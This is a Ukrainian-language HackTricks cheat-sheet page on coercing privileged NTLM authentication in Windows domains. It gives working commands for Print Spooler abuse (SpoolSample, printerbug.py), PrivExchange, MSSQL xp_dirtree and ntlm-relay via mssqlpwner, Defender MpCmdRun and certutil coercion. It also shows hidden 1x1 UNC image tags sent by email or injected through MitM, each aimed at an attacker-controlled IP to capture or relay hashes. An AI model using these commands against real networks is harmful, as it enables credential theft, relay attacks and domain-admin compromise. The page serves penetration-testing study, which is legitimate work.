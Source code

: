 # Примусова NTLM Привілейована Аутентифікація

{% hint style="success" %}
Вивчайте та практикуйте AWS Хакінг:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Хакінг: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) - це **колекція** **триггерів віддаленої аутентифікації**, написаних на C# з використанням компілятора MIDL для уникнення залежностей від сторонніх розробників.

## Зловживання Службою Спулера

Якщо служба _**Print Spooler**_ **увімкнена**, ви можете використовувати деякі вже відомі облікові дані AD, щоб **запросити** у серверу друку контролера домену **оновлення** нових друкованих завдань і просто сказати йому **надіслати сповіщення на якусь систему**.\
Зверніть увагу, що коли принтер надсилає сповіщення на довільні системи, йому потрібно **аутентифікуватися** проти цієї **системи**. Тому зловмисник може змусити службу _**Print Spooler**_ аутентифікуватися проти довільної системи, і служба **використає обліковий запис комп'ютера** в цій аутентифікації.

### Пошук Windows Серверів у домені

Використовуючи PowerShell, отримайте список Windows машин. Сервери зазвичай є пріоритетними, тому зосередимося на них:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Finding Spooler services listening

Використовуючи трохи модифікований @mysmartlogin's (Vincent Le Toux's) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), перевірте, чи слухає служба Spooler:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Ви також можете використовувати rpcdump.py на Linux і шукати протокол MS-RPRN.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Запросіть службу аутентифікацію проти довільного хоста

Ви можете скомпілювати[ **SpoolSample звідси**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
або використовуйте [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) або [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py), якщо ви на Linux
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Поєднання з неконтрольованою делегацією

Якщо зловмисник вже скомпрометував комп'ютер з [неконтрольованою делегацією](unconstrained-delegation.md), зловмисник може **змусити принтер аутентифікуватися на цьому комп'ютері**. Через неконтрольовану делегацію **TGT** облікового запису **комп'ютера принтера** буде **збережено в** **пам'яті** комп'ютера з неконтрольованою делегацією. Оскільки зловмисник вже скомпрометував цей хост, він зможе **отримати цей квиток** і зловживати ним ([Pass the Ticket](pass-the-ticket.md)).

## RCP Примусова аутентифікація

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

Атака `PrivExchange` є наслідком вразливості, виявленої в **функції `PushSubscription` Exchange Server**. Ця функція дозволяє серверу Exchange бути примушеним будь-яким доменним користувачем з поштовою скринькою аутентифікуватися на будь-якому клієнтському хості через HTTP.

За замовчуванням **служба Exchange працює як SYSTEM** і має надмірні привілеї (зокрема, вона має **привілеї WriteDacl на домен до 2019 року Кумулятивного оновлення**). Цю вразливість можна експлуатувати для дозволу **пересилання інформації до LDAP і, відповідно, витягнення бази даних домену NTDS**. У випадках, коли пересилання до LDAP неможливе, цю вразливість все ще можна використовувати для пересилання та аутентифікації на інших хостах у домені. Успішна експлуатація цієї атаки надає негайний доступ до адміністратора домену з будь-яким аутентифікованим обліковим записом домену.

## Всередині Windows

Якщо ви вже всередині машини Windows, ви можете змусити Windows підключитися до сервера, використовуючи привілейовані облікові записи з:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
Або використовуйте цю іншу техніку: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Можливо використовувати certutil.exe lolbin (підписаний Microsoft бінарний файл) для примусу NTLM аутентифікації:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

Якщо ви знаєте **електронну адресу** користувача, який входить у систему на машині, яку ви хочете скомпрометувати, ви можете просто надіслати йому **електронний лист з зображенням 1x1** таким як
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
і коли він його відкриє, він спробує аутентифікуватися.

### MitM

Якщо ви можете виконати атаку MitM на комп'ютер і вставити HTML на сторінку, яку він буде переглядати, ви можете спробувати вставити зображення, подібне до наступного, на сторінку:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Cracking NTLMv1

Якщо ви можете захопити [NTLMv1 challenges прочитайте тут, як їх зламати](../ntlm/#ntlmv1-attack).\
&#xNAN;_&#x52;emember, що для зламу NTLMv1 вам потрібно встановити Responder challenge на "1122334455667788"_

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
